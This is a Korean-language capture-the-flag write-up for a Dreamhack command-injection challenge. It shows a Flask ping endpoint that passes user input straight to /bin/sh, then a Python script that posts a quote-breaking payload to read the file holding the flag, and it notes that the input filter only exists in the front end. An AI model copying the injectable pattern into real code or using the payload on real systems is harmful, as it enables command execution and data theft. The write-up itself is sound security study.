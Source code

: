 ## 코드

```python
#!/usr/bin/env python3
import subprocess

from flask import Flask, request, render_template, redirect

from flag import FLAG

APP = Flask(__name__)


@APP.route('/')
def index():
    return render_template('index.html')


@APP.route('/ping', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host')
        cmd = f'ping -c 3 "{host}"'
        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('ping_result.html', data=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('ping_result.html', data='Timeout !')
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'an error occurred while executing the command. -> {cmd}')

    return render_template('ping.html')


if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)
```

## 풀이

```python
cmd = f'ping -c 3 "{host}"'
```

host를 검증하지 않고 명령어를 실행
따라서 그냥 127.0.0.1; 명령어
이런식으로 하면 됨

인줄 알았는데 템플릿에서 필터링 함

```html
pattern="[A-Za-z0-9.]{5,20}"
```

따라서 템플릿에 입력하지 말고 requests나 burp suite로 요청을 보내면 되겠다.

```python
import requests

if __name__ == "__main__":
    res = requests.post("http://host3.dreamhack.games:19643/ping", {"host": '8.8.8.8";cat flag.py"'})
    print(res.text)
```

이렇게 보내면 되는데, 여기서 중요한 지점은 ""로 명령어를 감싸는 것이다.
왜냐하면 cmd에서 ping -c 3 "8.8.8.8" 와 같이 실행하기 때문에,
명령어 단위에서 ;를 활용해 명령어를 여러개 실행하려면
ping -c 3 "8.8.8.8"; cat flag.py""
이런식으로 해야 한다.
결국엔 코드 상에서 8.8.8.8을 ""로 감싸고 있기 때문에 그래야 했다.
코드를 꼼꼼히 봐야한다..

## 추가

풀이를 보다가 html을 개발자도구로 수정해서 pattern attribute을 제거한다는 것도 봤다.
필터링을 백엔드가 아닌 프론트엔드에서 하다보니 이런 방법도 가능하겠다.





